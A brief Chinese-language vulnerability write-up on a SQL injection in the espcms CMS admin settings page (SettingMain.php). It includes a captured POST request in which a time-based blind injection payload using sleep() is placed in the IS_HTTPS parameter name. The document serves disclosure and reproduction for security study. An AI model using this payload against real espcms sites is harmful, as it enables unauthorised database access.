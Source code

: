 espcmsSQL注入漏洞
https://www.ecisp.cn/html/cn/download_espcms/
phpstudy安装
代码审计
espcms_admin/control/SettingMain.php
在更新网站配置时，key和value的值是直接拼接进去的，因此存在SQL注入漏洞

漏洞复现
安装成功后进入网站后台
点击设置->系统设置->确定保存

并抓包
POST /espcms_admin/index.php?act=FuNYwqPAgpSXj4m5d2npHEownomPfTf6l4%2BJuXdp6Rxja3m%2FkIeu1g%3D%3D HTTP/1.1
Host: 192.168.1.101
Content-Length: 518
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie:espcms_admin_user_info=D30R5LB5F3tzA96zEfkI6K7agHgeLvgeUCjwWtnFKKTTijDU563rtvbF2%2BZPKt2AFV%2FSBefbEwhwz2Y4v8O0d%2BdSQVPrIuV5fe5dP91YUivEt6JhJx2lVtgz01pzBwvJiXfG1EXATRSNiOProF6Mh2%2BJcTXlrQLBPE42ycga1aPOVdHT7xyMJZSrp%2BGetH8CZ7pyHUpFWROqoCt5hHO7xM48Ebz3UEVruMjbJJLUxFFsmWoMFL%2BdMJJlmOFXe%2BPZS5r5Pja02zjNFbgcjakujmffPpqYlJW6HJe0U1xNfGJm6SjW%2BhaseaBLNIfVLDpuTqJPkgKcVePiqoUBqATOVWskGbjhbduHQfNOtLFwurCZa7SxuSlT6UJIDyQr9hM1DgJnDcrZn57WF43ah3ACdbmk4G5o5uK%2BeIkF5IGBgDmNGt0n35hr6qqgK3mEc7vE%2FRhR1PSyNGBSnjg5c6Yd3MY7MGREbfve; 
Connection: close

token_key=&token_name=&config_name=%E5%9F%BA%E6%9C%AC%E5%8F%82%E6%95%B0%E8%AE%BE%E7%BD%AE&SITENAME=123456&WEB_ICON_16=upfile%2Fespcms_16.png&WEB_ICON_32=upfile%2Fespcms_32.png&WEB_ICON_64=upfile%2Fespcms_64.png&IS_CLOSE=0&CLOSE_CONTENT=&ADMINE_MAIL=123%40qq.com&IS_LOG=1&IS_GZIP=1&DEFAULT_LNG=cn&IS_ALONELNG=1&HOME_LNG=cn&IS_HTML=1&IS_REWRITE=0&ENTRANCE_FILE=index&IS_HTMLDIR=1&FILE_HTMLDIR=html%2F&IS_GETCACHE=1&IS_CACHING=1&CACHE_TIME=3600&HTTP_PATHTYPE=1&TIP_SEARCHTIME=30&IS_HTTPS'and/**/(sleep(3))and'1'%3d'1=http

修改请求体中的IS_HTTPS为IS_HTTPS'and/**/(sleep(2))and'1'%3d'1


Sleep()函数成功执行，因此存在SQL注入漏洞
